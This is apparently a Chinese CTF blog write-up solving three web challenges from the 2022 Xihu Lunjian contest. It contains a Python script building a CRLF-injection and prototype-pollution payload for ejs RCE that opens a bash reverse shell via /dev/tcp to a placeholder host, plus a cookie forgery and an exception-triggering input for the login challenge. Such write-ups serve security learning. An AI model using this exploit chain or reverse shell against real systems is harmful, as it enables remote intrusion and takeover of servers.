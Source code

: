 ```yaml
---
title: "2022 西湖论剑 Web 部分 Writeup"
date: 2023-02-032T18:00:53+08:00
lastmod: 2023-02-03T18:00:53+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


web 差一半, 等官方 wp 吧...

团队整体第二名, 学长们 tql

<!--more-->

## real_ez_node

/routes/index.js

```javascript
var express = require('express');
var http = require('http');
var router = express.Router();
const safeobj = require('safe-obj');
router.get('/',(req,res)=>{
  if (req.query.q) {
    console.log('get q');
  }
  res.render('index');
})
router.post('/copy',(req,res)=>{
  res.setHeader('Content-type','text/html;charset=utf-8')
  var ip = req.connection.remoteAddress;
  console.log(ip);
  var obj = {
      msg: '',
  }
  if (!ip.includes('127.0.0.1')) {
      obj.msg="only for admin"
      res.send(JSON.stringify(obj));
      return 
  }
  let user = {};
  for (let index in req.body) {
      if(!index.includes("__proto__")){
          safeobj.expand(user, index, req.body[index])
      }
    }
  res.render('index');
})

router.get('/curl', function(req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:3000/?q=' + q
            try {
                http.get(url,(res1)=>{
                    const { statusCode } = res1;
                    const contentType = res1.headers['content-type'];
                  
                    let error;
                    // 任何 2xx 状态码都表示成功响应，但这里只检查 200。
                    if (statusCode !== 200) {
                      error = new Error('Request Failed.\n' +
                                        `Status Code: ${statusCode}`);
                    }
                    if (error) {
                      console.error(error.message);
                      // 消费响应数据以释放内存
                      res1.resume();
                      return;
                    }
                  
                    res1.setEncoding('utf8');
                    let rawData = '';
                    res1.on('data', (chunk) => { rawData += chunk;
                    res.end('request success') });
                    res1.on('end', () => {
                      try {
                        const parsedData = JSON.parse(rawData);
                        res.end(parsedData+'');
                      } catch (e) {
                        res.end(e.message+'');
                      }
                    });
                  }).on('error', (e) => {
                    res.end(`Got error: ${e.message}`);
                  })
                res.end('ok');
            } catch (error) {
                res.end(error+'');
            }
    } else {
        res.send("search param 'q' missing!");
    }
})
module.exports = router;
```

Dockerfile 中的环境是 `node:8.1.2`, 存在 CRLF 注入

参考文章: [https://www.anquanke.com/post/id/240014#h2-11](https://www.anquanke.com/post/id/240014#h2-11)

然后结合已知的 safe-obj 原型链污染, 即 `CVE-2021-25928`, 利用 ejs 进行 rce

构造 payload

```python
from urllib.parse import quote

payload = ''' HTTP/1.1


POST /copy HTTP/1.1
Host: 127.0.0.1:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.70
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/json
Content-Length: 218

{"constructor.prototype.client":true,"constructor.prototype.escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('bash -c \\"bash -i >& /dev/tcp/x.x.x.x/yyyy 0>&1\\"');"}

GET /'''.replace('\n', '\r\n')

enc_payload = u''

for i in payload:
    enc_payload += chr(0x0100 + ord(i))

print(quote(enc_payload))
```

![image-20230202180355225](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021804644.png)

反弹 shell 后执行 `cat /flag` 即可

## 扭转乾坤

直接上传提示 `Sorry,Apache maybe refuse header equals Content-Type: multipart/form-data;.`

![image-20230202180603240](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021806316.png)

构造错误的 http 包格式就可以绕过

![image-20230202180630208](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021806297.png)

## Node Magical Login

controller.js

```javascript
const fs = require("fs");
const SECRET_COOKIE = process.env.SECRET_COOKIE || "this_is_testing_cookie"

const flag1 = fs.readFileSync("/flag1")
const flag2 = fs.readFileSync("/flag2")


function LoginController(req,res) {
    try {
        const username = req.body.username
        const password = req.body.password
        if (username !== "admin" || password !== Math.random().toString()) {
            res.status(401).type("text/html").send("Login Failed")
        } else {
            res.cookie("user",SECRET_COOKIE)
            res.redirect("/flag1")
        }
    } catch (__) {}
}

function CheckInternalController(req,res) {
    res.sendFile("check.html",{root:"static"})

}

function CheckController(req,res) {
    let checkcode = req.body.checkcode?req.body.checkcode:1234;
    console.log(req.body)
    if(checkcode.length === 16){
        try{
            checkcode = checkcode.toLowerCase()
            if(checkcode !== "aGr5AtSp55dRacer"){
                res.status(403).json({"msg":"Invalid Checkcode1:" + checkcode})
            }
        }catch (__) {}
        res.status(200).type("text/html").json({"msg":"You Got Another Part Of Flag: " + flag2.toString().trim()})
    }else{
        res.status(403).type("text/html").json({"msg":"Invalid Checkcode2:" + checkcode})
    }
}

function Flag1Controller(req,res){
    try {
        if(req.cookies.user === SECRET_COOKIE){
            res.setHeader("This_Is_The_Flag1",flag1.toString().trim())
            res.setHeader("This_Is_The_Flag2",flag2.toString().trim())
            res.status(200).type("text/html").send("Login success. Welcome,admin!")
        }
        if(req.cookies.user === "admin") {
            res.setHeader("This_Is_The_Flag1", flag1.toString().trim())
            res.status(200).type("text/html").send("You Got One Part Of Flag! Try To Get Another Part of Flag!")
        }else{
            res.status(401).type("text/html").send("Unauthorized")
        }
    }catch (__) {}
}



module.exports = {
    LoginController,
    CheckInternalController,
    Flag1Controller,
    CheckController
}
```

构造 cookie `user=admin` 拿到前半部分 flag

![image-20230202180812631](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021808709.png)

因为 CheckController 在检查 checkcode 的时候没有对 catch 到的异常进行处理, 所以可以构造一个长度为 16 的数组使得调用 `checkcode.toLowerCase()` 时报错, 然后进入 `catch (__) {}`, 最后顺下去执行得到后半部分 flag

```json
{"checkcode":[1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16]}
```

![image-20230202181034296](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021810378.png)